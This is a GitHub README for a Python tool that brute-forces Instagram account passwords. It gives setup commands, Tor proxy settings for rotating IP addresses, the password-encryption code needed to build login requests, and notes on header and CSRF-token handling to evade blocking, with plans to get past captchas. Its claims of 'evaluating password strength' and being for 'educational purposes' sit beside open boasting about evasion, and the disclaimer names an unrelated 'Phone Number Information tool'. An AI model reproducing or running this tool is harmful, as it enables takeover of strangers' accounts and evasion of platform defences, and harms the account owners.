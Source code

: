 # Insta_bruteforce

![image](https://github.com/torino64/Insta_bruteforce/assets/47543092/70e9563f-c927-4bca-956f-4738a5956773)

Instagrame_bruteforce is a professionally crafted Python script tailored for evaluating the password strength of Instagram accounts, employing a robust bruteforce attack approach. This script is platform-agnostic and seamlessly compatible with Kali Linux/Ubuntu/Parrot OS operating systems, ensuring flexibility for users across different computing environments. To enhance anonymity and security, Instagrame_bruteforce integrates Tor service, routing its network requests through the Tor network for added privacy and protection.

# Installation
# Kali Linux/Ubuntu/Parrot OS:

```
sudo apt-get update
sudo apt-get install git
sudo apt-get install tor
sudo apt install python3
sudo apt-get install pip
pip install --upgrade pip setuptools
git clone https://github.com/torino64/Insta_bruteforce.git
ls
cd Insta_bruteforce
ls
pip install -r requirements.txt
sudo service tor start
sudo service tor status
ctrl +c
sudo python3 foxyinsta_bruteforce.py
```
If you encounter an issue when trying to run 'insta_bruteforce,' it's essential to verify your Tor configuration. Ensure that Tor has been correctly set up with the control port enabled. You can inspect the Tor configuration file, usually found at /etc/tor/torrc, and confirm that it includes the following line:

```
ControlPort 9051
```
If it's not there, add it, and then restart Tor.


# Unlocking Instagram: The Game-Changing Features of Our Brute Force Tool

What truly sets this Instagram brute force script apart from others, readily available on GitHub, is its meticulous attention to both security and evasion techniques. While some scripts might merely initiate the Tor service and proceed with the attack, this script takes a much more comprehensive approach. It seamlessly integrates Tor proxies into its network requests to ensure anonymity and dynamic IP address rotation during the brute force operation.

The script achieves this by configuring Tor proxies as follows:

```
self.proxies = {
    'http': 'socks5://127.0.0.1:9050',
    'https': 'socks5://127.0.0.1:9050'
}
```

By doing so, all communication between the script and the Instagram server is meticulously routed through the Tor network, providing a constantly changing public IP address. Without this integration, even if the Tor service is running (as initiated with the 'sudo service tor start' command), making requests without these proxies, as shown below:

```
data = json.loads(requests.get('https://www.instagram.com/data/shared_data/', headers=headers).text)
```

would result in a static public IP address. Consequently, with just a few unsuccessful attempts, the script would risk being blocked, limiting brute force attempts to a mere three.

Additionally, this script boasts an 'encrypt_password' function, capable of encrypting passwords before they are sent to the server. As an essential security measure, this function accepts parameters such as 'key_id', 'pub_key', 'password', and 'version'. It's vital to note that sending unencrypted passwords to the server would not proceed with the credential verification process. To acquire the necessary parameters for 'encrypt_password', the script sources them from 'https://www.instagram.com/data/shared_data/'.

```
def encrypt_password(self, key_id, pub_key, password, version=10):
            key = Random.get_random_bytes(32)
            iv = bytes([0] * 12)

            time = int(datetime.now().timestamp())
            aes = AES.new(key, AES.MODE_GCM, nonce=iv, mac_len=16)
            aes.update(str(time).encode('utf-8'))
            encrypted_password, cipher_tag = aes.encrypt_and_digest(password.encode('utf-8'))

            pub_key_bytes = binascii.unhexlify(pub_key)
            seal_box = SealedBox(PublicKey(pub_key_bytes))
            encrypted_key = seal_box.encrypt(key)

            encrypted = bytes([1,
                            key_id,
                            *list(struct.pack('<h', len(encrypted_key))),
                            *list(encrypted_key),
                            *list(cipher_tag),
                            *list(encrypted_password)])
            encrypted = base64.b64encode(encrypted).decode('utf-8')

            return quote_plus(f'#PWD_INSTAGRAM_BROWSER:{version}:{time}:{encrypted}')
```
Furthermore, the script modifies certain attributes in the headers of the login page, 'https://www.instagram.com/accounts/login/ajax/'. For each request, it generates a unique 'user_agent' and extracts the CSRF token from 'https://www.instagram.com/data/shared_data/'. Additionally, it introduces new attributes like 'X-Asbd-Id,' among others.

While the script encounters occasional challenges, particularly due to captchas, it persists in its quest for successful brute force attempts. Future developments will focus on devising methods to bypass captchas. Thank you for your time.

![image](https://github.com/torino64/Insta_bruteforce/assets/47543092/c73a2728-5970-41ee-88ff-e81f35d99687)

As depicted in the image above, you'll notice that the IP address undergoes frequent changes with each new request:

    AT - Austria
    NL - Netherlands
    RU - Russia
    LU - Luxembourg

The extensive text you see typically indicates a captcha-related challenge. On the other hand, other messages pertain to the waiting period during the verification process. If you come across 'authenticated: false,' it suggests an unsuccessful password attempt.

# 📢 Warning
**This tool is exclusively intended for educational purposes. We want to emphasize that if you employ this tool for any other objectives beyond education, we disclaim any responsibility for such actions. The Phone Number Information tool cannot be held accountable for misuse or any illegal activities. We strongly advise that you restrict its usage to penetration testing or educational endeavors. Remember, hacking itself is not a criminal act. We welcome pull requests with open arms, fostering a collaborative environment.**

# I'm Not A Hacker I'm A Cyber Security Professional



